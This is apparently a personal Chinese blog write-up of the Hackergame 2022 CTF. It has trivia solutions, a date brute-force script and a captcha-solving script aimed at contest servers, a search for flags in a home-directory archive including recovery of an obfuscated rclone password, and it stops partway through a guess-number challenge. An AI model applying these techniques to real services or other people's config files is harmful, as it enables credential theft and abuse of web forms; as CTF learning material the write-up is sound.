







import AsciinemaPlayer from "../../../src/components/mdx/asciinema-player.tsx"

# 送你一个 Shell 当见面礼（逃

<AsciinemaPlayer src="./figlet.cast" rows={20} cols={90}/>
[](figlet.cast)

这篇博客的阅读时间估计不对。你并不需要 80 分钟来阅读本文。

# 个人总结

这是我第一次参加 CTF 比赛，最后混了个 34 名，感觉还不错。曾经就听说过 CTF 这个比赛，不过一直没有进一步了解，也没有参加过。在 Hackergame 2022 开始之前，我所做的准备也只是逛了逛 CTF Wiki, 从 CTFHub 上刷了些 web 题。



最后这个比赛名次对于我这种 CTF 萌新来说还是蛮高的。不过能取得这样一个名次，还是和我平时的积累有很大关系的。虽然我平时并不关注 CTF 相关的内容，但是作为一个可能即将成为程序员的人，我还是一直比较在乎自己编写的代码的安全性的，XSS、提权漏洞、缓冲区溢出这些操作我都是比较熟悉的，不过我一般都是在编写代码时以一种防御性的姿态来避免这些攻击发生在我自己的代码上，这次比赛使我第一次体会到作为攻击者去利用这些漏洞是什么体验。

最近在看 CSAPP，十几天前刚学会了 x86 汇编，没想到就在 flag 自动机那道题里用到了。不过作为日常 Linux 用户而言，好几道题（家目录里的秘密/传达不到的文件）确实只需要一些基础的搜索和再正常不过命令行操作就可以完成。

然而作为一名数学院的学生，我一道正经的数学题都没做出来，实在是有些丢数学院的脸了。（算了，我们专业被开除出数学籍了，统计学算个屁的数学）。

密码学题我连题都看不懂，除了惜字如金第一题我知道该怎么做，但是懒得写了。

量子藏宝图那道题考察了一些需要现学现卖的新知识，出的不是很难，所以我这种混子得以在纸上计算来把 `128 - 4 * 8 ` 个 bit 翻译成 12 个字符。

明年我如果还有时间，一定会再次参加 Hackergame 的!

# 比赛体验

比赛体验极佳。除了

- 有时需要重启到 Windows 系统之外
- 光与影在 Linux + Firefox 下跑起来只有 10 fps，不过误伤大雅
- Killed
- ~~（大佬太多了，你们把我从前 30 名里挤出来了）~~

# Write Up Part I

我把 Write Up 分成好几个部分写只是为了防止右边导航栏溢出而已，没别的意思。一个小节里面标题堆得太多了会导致右边导航栏显示不下。

## 签到

打开签到题，就看到了经典的（对于我这种人工智能相关专业的人而言）手写数字识别。嗯。。。最后一个框倒计时 0 秒，很显然是不可能让你直接手签 2022 过掉的。

为了观察浏览器与服务器数据交流的格式，我手签了一个，点击提交按钮，发现直接跳转到了 http://202.38.93.111:12022/?result=2?5?

那么，我们就可以合理的怀疑 http://202.38.93.111:12022/?result=2022 这个网址能把我们心心念念的 flag 送给我们。果然，flag 就这样到手了。（然鹅此时一血已经被手快的人拿走了）


## 猫咪问答喵

参加猫咪问答喵，参加喵咪问答谢谢喵。

### 中国科学技术大学 NEBULA 战队（USTC NEBULA）是于何时成立的喵？

:::question

1. 中国科学技术大学 NEBULA 战队（USTC NEBULA）是于何时成立的喵？

提示：格式为 YYYY-MM，例如 2038 年 1 月即为 2038-01。

:::

Google 搜索 `中国科学技术大学 NEBULA 战队（USTC NEBULA）` 喵， 发现[第一个结果](https://cybersec.ustc.edu.cn/2022/0826/c23847a565848/page.htm)中提到喵

> 中国科学技术大学“星云战队（Nebula）”成立于 2017 年 3 月，“星云”一词来自中国科学技术大学 BBS“瀚海星云”，代表同学们对科学技术的无限向往和追求。战队现领队为网络空间安全学院吴文涛老师，现任队长为网络空间安全学院李蔚林、童蒙和武汉。战队核心成员包括了来自网络空间安全学院、少年班学院、物理学院、计算机学院等各个院系的同学，充分体现了我校多学院共建网络空间安全一级学科的特点。战队以赛代练，以赛促学，在诸多赛事中获得佳绩。

所以喵可以确定此题答案为 `2017-03` 喵.

### 请问这个 KDE 程序的名字是什么？

:::question

2. 2022 年 9 月，中国科学技术大学学生 Linux 用户协会（LUG @ USTC）在科大校内承办了软件自由日活动。除了专注于自由撸猫的主会场之外，还有一些和技术相关的分会场（如闪电演讲 Lightning Talk）。其中在第一个闪电演讲主题里，主讲人于 slides 中展示了一张在 GNOME Wayland 下使用 Wayland 后端会出现显示问题的 KDE 程序截图，请问这个 KDE 程序的名字是什么？

提示：英文单词，首字母大写，其他字母小写。

:::

Google 搜索 `中国科学技术大学 软件自由日 LUG@USTC` 喵，[一个来自 Google Groups 网站的搜索结果](https://groups.google.com/g/ustc_lug/c/aNRxC5ydY7A?pli=1) 中提到喵

> 往届活动和详细介绍见：https://lug.ustc.edu.cn/wiki/lug/events/sfd

打开此链接可以看到 2022 年 SFD 活动的详细信息喵，表格中有一行

> | 讲者   | 主题                                                     | 资料                                                                                                                                                       |
> | ------ | -------------------------------------------------------- | ---------------------------------------------------------------------------------------------------------------------------------------------------------- |
> | 陶柯宇 | 闪电演讲：《GNOME Wayland 使用体验：一个普通用户的视角》 | [Slides](https://ftp.lug.ustc.edu.cn/%E6%B4%BB%E5%8A%A8/2022.9.20_%E8%BD%AF%E4%BB%B6%E8%87%AA%E7%94%B1%E6%97%A5/slides/gnome-wayland-user-perspective.pdf) |

打开 Slides 喵, 在第 15 页可以找到题目所述截图喵。

图片里菜单项里 `Configure Kdenlive` 很显然写明喵应用程序的名称。


### Firefox 浏览器能在 Windows 2000 下运行的最后一个大版本号是多少？

:::question

3. 22 年坚持，小 C 仍然使用着一台他从小用到大的 Windows 2000 计算机。那么，在不变更系统配置和程序代码的前提下，Firefox 浏览器能在 Windows 2000 下运行的最后一个大版本号是多少？

提示：格式为 2 位数字的整数。

:::

Google 搜索 `Firefox 浏览器能在 Windows 2000 下运行的最后一个大版本号是多少` 喵。然而第一页上没什么有效信息喵。自然而然想到用英文搜索喵。


谷歌直接把结果加粗丢给咱喵，好耶！

### 首个变动此行为的 commit 的 hash

:::question

4. 你知道 PwnKit（CVE-2021-4034）喵？据可靠谣传，出题组的某位同学本来想出这样一道类似的题，但是发现 Linux  内核更新之后居然不再允许 argc 为 0 了喵！那么，请找出在 Linux 内核 master  分支（torvalds/linux.git）下，首个变动此行为的 commit 的 hash 吧喵！


提示：格式为 40 个字符长的 commit 的 SHA1 哈希值，字母小写，注意不是 merge commit。

:::

首先当然要 Clone Linux 的代码仓库喵(这仓库好大喵。。。需要一段时间才能克隆下来喵)：

```bash
git clone https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git
```

然后在执行了 n 多次 Google 搜索之后喵，kxxt 发现加上搜索条件 `site:kernel.org ` 之后再搜索 `CVE-2021-4034` 就能在[第一个搜索结果](https://lore.kernel.org/lkml/20220126043947.10058-1-ariadne@dereferenced.org/T/)中看到相关的 PATCH 喵。

这个 PATCH 改动了 `fs/exec.c` 这个文件喵。咱喵可以合理的推测对于 `CVE-2021-4034` 的修复应该发生在这个文件喵（懒的管这个 PATCH 是否被合并了）。

用 VSCode 打开 Linux 仓库喵，等它加载完成喵（等待 Activating Extensions），打开  `fs/exec.c` 然后在 `TIMELINE` 面板（应该是 Git Lens 插件的功能）下面用肉眼搜索相关改动喵。


很快就找到了喵。右键复制 Commit ID, 此题就结束了喵。

### 你知道猫咪在连接什么域名吗？

:::question

5. 通过监视猫咪在键盘上看似乱踩的故意行为，不出所料发现其秘密连上了一个 ssh 服务器，终端显示 `ED25519 key fingerprint is MD5:e4:ff:65:d7:be:5d:c8:44:1d:89:6b:50:f5:50:a0:ce.`，你知道猫咪在连接什么域名吗？

提示：填写形如 example.com 的二级域名，答案中不同的字母有 6 个。

:::

这道题 kxxt 一开始真的没搜到喵。想要暴搜却发现状态空间太大了，搜不完喵。后来 Google 搜索 `public ssh server` 点进[第一个结果](https://serverfault.com/questions/185153/free-public-ssh-server-for-testing-purposes)找到了答案喵。

:::caution

其实我一开始搜索的时候就找到了这个帖子，不过我当时并没有耐心看完所有的回答喵。当时我看了 Accepted Answer 里没有我想找的东西就把这个 tab 杀掉了。

**现在想来看看其他回答也是很有必要的喵，毕竟 Accepted Answer 是提问者采纳的回答，并不是最适合所有人的回答。而且我第一次访问到这个链接的时候甚至都没有注意到第二个回答的 Up Vote 比 Accepted Answer 更多.**

:::


**想不到吧，sdf.org 除了 ssh server 之外还有 minecraft server (**


### “网络通”定价为 20 元一个月是从哪一天正式实行的？

:::question

6. 中国科学技术大学可以出校访问国内国际网络从而允许云撸猫的“网络通”定价为 20 元一个月是从哪一天正式实行的？

提示：格式为 YYYY-MM-DD，例如 2038 年 1 月 1 日，即为 2038-01-01。

:::

这道题目我是真的没有搜出来喵，不过得益于题目的状态空间比较小（一年 365 天，按 10 年算，不也就 3650 种情况喵？），最后我靠暴搜解出了这道题。

:::danger

其实咱喵一开始搜到了一些极其具有误导性的信息，比如：

- [这个页面](https://ustcnet.ustc.edu.cn/11173/list.htm) 上有两个关于网络通的链接，标的时间都是 2015 年喵
- 还有几处咱喵已经忘了，反正不是答案所在的年份喵

:::

话不多喵，直接上脚本喵：

```python brute-force-date.py
import requests

cookie = "session=你的session"

url = "http://202.38.93.111:10002/"
criterion = '你全部答错了喵！'


BASE_ANS = {'q1': "", 'q2': "", 'q3': "",
            'q4': "", 'q5': "", 'q6': ""}


def ans(val):
    return BASE_ANS | {'q6': val}

def print_and_return(x):
    print(x)
    return x

resps = [requests.post(url, headers={'Cookie': cookie}, data=ans(
    print_and_return(f'2003-{j:02}-{i:02}'))) for i in range(1, 32) for j in range(1, 13)]

print([resp for resp in resps if resp.status_code != 200])

print([resp.text for resp in resps if criterion not in resp.text])
```

代码很简单喵，我就略过不讲喵。更换年份直接修改脚本就可以喵。最后跑出来是 2003年3月1日喵。真的很搞人心态喵，咱喵从 2015 年一路试到 2003 年才作出来。

### 喵~

~~参加猫咪问答喵，参加喵咪问答谢谢喵。~~

喵喵结束，变回人形喽。

## 家目录里的秘密

:::question

实验室给小 K 分配了一个高性能服务器的账户，为了不用重新配置 VSCode, Rclone 等小 K 常用的生产力工具，最简单的方法当然是把自己的家目录打包拷贝过去。

但是很不巧，对存放于小 K 电脑里的 Hackergame 2022 的 flag 觊觎已久的 Eve 同学恰好最近拿到了这个服务器的管理员权限（通过觊觎另一位同学的敏感信息），于是也拿到了小 K 同学家目录的压缩包。

然而更不巧的是，由于 Hackergame 部署了基于魔法的作弊行为预知系统，Eve 同学还未来得及解压压缩包就被 Z 同学提前抓获。

为了证明 Eve 同学不良企图的危害性，你能在这个压缩包里找到重要的 flag 信息吗？

**公益广告：题目千万条，诚信第一条！解题不合规，同学两行泪。**

:::

解压缩之后直接搜索 `flag`, 第一个 `flag` 就有了，非常简单。


然后打开 rclone 的配置文件 `user/.config/rclone/rclone.conf`:

```ini
[flag2]
type = ftp
host = ftp.example.com
user = user
pass = tqqTq4tmQRDZ0sT_leJr7-WtCiHVXSMrVN49dWELPH1uce-5DPiuDtjBUN3EI38zvewgN5JaZqAirNnLlsQ
```

发现 `pass` 是一个晦涩难懂的字符串，我们可以断定 flag2 就藏在这段密码里。

然后搜索 Google 搜索 `decrypt rclone passwd in config`， 点进[第一个搜索结果](https://forum.rclone.org/t/how-to-retrieve-a-crypt-password-from-a-config-file/20051)。

帖子里提到了密码是用一个死密钥加密的，所以我们能够对它进行解密，同时作者也给出了一段破解密码的 golang 程序和 [Go Playground 链接]( https://play.golang.org/p/IcRYDip3PnE)。

> The password that is saved on `crypt` remotes on `~/.config/rclone.conf` is encrypted with a hardcoded key, therefore it can be recovered.
>
> I've copied some code from the rclone source tree and added a line to make it easier for people to run it.
>
> Just go to `https://play.golang.org/p/IcRYDip3PnE` and replace the string `YOUR PSEUDO-ENCRYPTED PASSWORD HERE` with the actual password that is written in your `~/.config/rclone.conf` file, then click "Run".

那我们把加密（或者说混淆）过的密码输入到里面，运行代码，就得到了 flag。


**吐槽**：你们 Go Playground 怎么不带语法高亮啊！！！！！！我眼睛要瞎了🫠🫠🫠🫠🫠🫠

## HeiLang

:::question

来自 Heicore 社区的新一代编程语言 HeiLang，基于第三代大蟒蛇语言，但是抛弃了原有的难以理解的 `|` 运算，升级为了更加先进的语法，用 `A[x | y | z] = t` 来表示之前复杂的 `A[x] = t; A[y] = t; A[z] = t`。

作为一个编程爱好者，我觉得实在是太酷了，很符合我对未来编程语言的想象，科技并带着趣味。

:::

我们直接写一个脚本将 Heilang 的玄学语法转换成正常 Python 语法, 然后运行转换后的脚本就得到了 flag：

<CH.Code>

```python transform.py
from itertools import chain
import sys
import re


def process_line(line):
    r = re.match('^a\[([\d\|\s]+)\] = (\d+)$', line)
    if r is None:
        return [line]
    splited = r.group(1).split(' | ')
    rhs = r.group(2)
    return [f'a[{i}]={rhs}' for i in splited]


results = [process_line(line) for line in sys.stdin.readlines()]
results = chain(*results)
print('\n'.join(list(results)))
```

```shell 命令行
$ python transform.py <getflag.hei.py >hacked.py
$ python hacked.py                              
Tha flag is: flag{6d9ad6e9a6268d96-cc46fb634fc46edc}
```

</CH.Code>

## Xcaptcha

题目懒的贴了。

捕获几个网络请求能看出来要计算的数字在 html 里，用 [`htmlq`](https://github.com/mgdm/htmlq) 提取出来应该很方便。高精度？果断上 Python！

### 失败的尝试

嗯，这不就是一秒内完成三个高精度整数加法的事，这还难得到我？于是就有了下面的 Python 脚本和 bash 混合编程

<CH.Code>

```python calc.py
import sys
import requests

lines = sys.stdin.readlines()
ans = [eval(line.split()[0]) for line in lines]

cookie = "从浏览器里复制出来的Cookie（此处有坑）"

r = requests.post('http://202.38.93.111:10047/xcaptcha', headers={
    "Cookie": cookie
}, data={
    "captcha1": ans[0],
    "captcha2": ans[1],
    "captcha3": ans[2],
})

print(r.text)
```

---

```shell 命令行
http 202.38.93.111:10047/xcaptcha 'Cookie: 你的Cookie' | htmlq '.form-group > label' --text | python calc.py
```

</CH.Code>

WoC！怎么TLE了？？？我明明没有超时呀？？？于是 kxxt 就被卡（qia, 三声）在这里很久

```html response
<!DOCTYPE html>
<html>
  <head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1">
    <link rel="stylesheet" href="/static/bootstrap/css/bootstrap.min.css">
    <title>Xcaptcha</title>
  </head>
  <body>
    <div class="container px-3 py-3">
        <h1>AGI 核心机房 准入验证</h1>
        
        <p>验证失败：超过 1 秒限制</p>
        
        <a href="/xcaptcha"></a>
    </div>
  </body>
</html>
```

### 修正

后来我用 `httpie` 手动和题目交互，发现原来是 GET 请求有对 Cookie 做修改。而我之前一直用的从浏览器里复制出来的 Cookie 😢😭😓。

然后就直接把所有逻辑都写在 Python 里了，因为把新 Cookie 传给 Python 不是很方便：

<CH.Code>

```python calc.py
import re
import requests


cookie = "你的 Cookie"
resp = requests.get('http://202.38.93.111:10047/xcaptcha',
                    headers={"Cookie": cookie})
text = resp.text
cookie = resp.headers['Set-Cookie']
mat = re.findall(r"(\d+)\+(\d+) 的结果是？", text)

r = requests.post('http://202.38.93.111:10047/xcaptcha', headers={
    "Cookie": cookie
}, data={
    "captcha1": int(mat[0][0])+int(mat[0][1]),
    "captcha2": int(mat[1][0])+int(mat[1][1]),
    "captcha3": int(mat[2][0])+int(mat[2][1]),
})

print(r.text)
```

---

```html response
<!DOCTYPE html>
<html>
  <head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1">
    <link rel="stylesheet" href="/static/bootstrap/css/bootstrap.min.css">
    <title>Xcaptcha</title>
  </head>
  <body>
    <div class="container px-3 py-3">
        <h1>AGI 核心机房 准入验证</h1>
        <p>验证成功。</p>
        
        <p>flag{head1E55_br0w5er_and_ReQuEsTs_areallyour_FR1ENd_6334c73851}</p>
    </div>
  </body>
</html>
```

</CH.Code>

这不，flag 到手了，也没有那么麻烦吗。。。。

## 旅行照片 2.0（照片分析)

丢给一个在线 EXIF 信息查看器就能得到答案。
推荐：https://exifdata.com/

从众多小米手机的图像中浏览了一番，发现是红米 Note 9: https://www.wikiwand.com/zh-hans/Redmi_Note_9

不过航班我是真的不会找。日本上空这么多航班，我怎么知道是哪一个？？？（也没找到免费的能看五月份航班数据的网站）

## 猜数字

一打开 `GuessNumber.jvav`, 一股“企业级”应用开发的味道便扑面而来。

<CH.Section>

首先是一屏 [_`import`_ s](focus://imports#1:32)

<CH.Code lineNumbers={true}>

```java imports
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.IOException;
import java.net.InetSocketAddress;
import java.nio.ByteBuffer;
import java.nio.charset.StandardCharsets;
import java.nio.file.Files;
import java.nio.file.Path;
import java.security.GeneralSecurityException;
import java.security.MessageDigest;
import java.security.PublicKey;
import java.security.SecureRandom;
import java.security.Signature;
import java.security.cert.CertificateFactory;
import java.util.Base64;
import java.util.List;
import java.util.Locale;
import java.util.Map;
import java.util.Objects;
import java.util.Optional;
import java.util.OptionalDouble;
import java.util.Random;
import java.util.Stack;
import java.util.concurrent.ConcurrentHashMap;
import java.util.concurrent.ForkJoinPool;
import java.util.regex.Pattern;

import javax.xml.stream.XMLEventReader;
import javax.xml.stream.XMLInputFactory;
import javax.xml.stream.XMLOutputFactory;
import javax.xml.stream.XMLStreamException;
import javax.xml.stream.XMLStreamWriter;
```

```java GuessNumber
public final class GuessNumber {
   private static final Path CERT;
   private static final Path INDEX;
   private static final Path STYLE;
   private static final Path SOURCE_FILE;

   private static final Map<Token, State> STATES;
   private static final XMLInputFactory XML_INPUTS;
   private static final XMLOutputFactory XML_OUTPUTS;
   
   private static final String PORT = "GUESS_NUMBER_PORT";
   private static final String FLAG_PREFIX = "GUESS_NUMBER_FLAG_PREFIX";
   private static final String FLAG_SECRET = "GUESS_NUMBER_FLAG_SECRET";
   private static final String CERT_FILE_PATH = "GUESS_NUMBER_CERT_FILE_PATH";
   private static final String INDEX_FILE_PATH = "GUESS_NUMBER_INDEX_FILE_PATH";
   private static final String STYLE_FILE_PATH = "GUESS_NUMBER_STYLE_FILE_PATH";
   private static final String SOURCE_FILE_PATH = "GUESS_NUMBER_SOURCE_FILE_PATH";

   static {
      STATES = new ConcurrentHashMap<>();
      XML_INPUTS = XMLInputFactory.newFactory();
      XML_OUTPUTS = XMLOutputFactory.newFactory();
      CERT = Path.of(System.getenv().getOrDefault(CERT_FILE_PATH, "cert.pem"));
      INDEX = Path.of(System.getenv().getOrDefault(INDEX_FILE_PATH, "index.html"));
      STYLE = Path.of(System.getenv().getOrDefault(STYLE_FILE_PATH, "github-markdown.css"));
      SOURCE_FILE = Path.of(System.getenv().getOrDefault(SOURCE_FILE_PATH, "GuessNumber.java"));
   }

   ...
}
```

```java State.collect
  private record State(Token token, int passed, int talented, double number, OptionalDouble previous) {
      private static final Random RNG = new SecureRandom();
	  ...
      private void collect(XMLStreamWriter writer) throws XMLStreamException {
          writer.writeStartDocument();
          // <state>
          writer.writeStartElement("state");
          // <name>
          writer.writeStartElement("name");
          writer.writeCharacters(this.token.user());
          writer.writeEndElement();
          // </name><passed>
          writer.writeStartElement("passed");
          writer.writeCharacters(Integer.toString(this.passed));
          writer.writeEndElement();
          // </passed><talented>
          writer.writeStartElement("talented");
          writer.writeCharacters(Integer.toString(this.talented));
          writer.writeEndElement();
          // </talented>
          if (this.previous.isPresent()) {
              // <guess>
              var previous = this.previous.getAsDouble();

              var isLess = previous < this.number - 1e-6 / 2;
              var isMore = previous > this.number + 1e-6 / 2;

              writer.writeStartElement("guess");
              writer.writeAttribute("less", Boolean.toString(isLess));
              writer.writeAttribute("more", Boolean.toString(isMore));
              writer.writeCharacters(Double.toString(previous));
              writer.writeEndElement();
              // </guess>
          }
          if (this.talented > 0) {
              // <flag>
              writer.writeStartElement("flag");
              writer.writeCharacters(this.token.flag());
              writer.writeEndElement();
              // </flag>
          }
          writer.writeEndElement();
          // </state>
      }
  }
```

```java State.update
private record State(Token token, int passed, int talented, double number, OptionalDouble previous) {
    ...
	private State update(XMLEventReader reader) throws XMLStreamException {
        var result = Optional.<State>empty();
        var nameStack = new Stack<String>();
        while (reader.hasNext()) {
            var event = reader.nextEvent();
            if (event.isStartElement()) {
                var name = event.asStartElement().getName().getLocalPart();
                nameStack.push(name);
            }
            if (event.isEndElement()) {
                if (nameStack.empty()) throw new XMLStreamException();
                var name = event.asEndElement().getName().getLocalPart();
                if (!name.equals(nameStack.pop())) throw new XMLStreamException();
            }
            if (event.isCharacters()) {
                var path = List.of("state", "guess");
                if (!path.equals(nameStack)) continue;
                if (result.isPresent()) throw new XMLStreamException();
                try {
                    var guess = Double.parseDouble(event.asCharacters().getData());

                    var isLess = guess < this.number - 1e-6 / 2;
                    var isMore = guess > this.number + 1e-6 / 2;

                    var isPassed = !isLess && !isMore;
                    var isTalented = isPassed && this.previous.isEmpty();

                    var newPassed = isPassed ? this.passed + 1 : this.passed;
                    var newTalented = isTalented ? this.talented + 1 : this.talented;
                    var newNumber = isPassed ? RNG.nextInt(1, 1000000) * 1e-6 : this.number;
                    var newPrevious = isPassed ? OptionalDouble.empty() : OptionalDouble.of(guess);

                    result = Optional.of(new State(this.token, newPassed, newTalented, newNumber, newPrevious));
                } catch (NumberFormatException e) {
                    throw new XMLStreamException(e);
                }
            }
        }
        if (!nameStack.empty()) throw new XMLStreamException();
        if (result.isEmpty()) throw new XMLStreamException();
        return result.get();
    }
}
```

</CH.Code>
然后又是大大的面向对象的 [_`GuessNumber`_ 类](focus://GuessNumber#1:30). 还有为什么要用三个空格缩进。。。

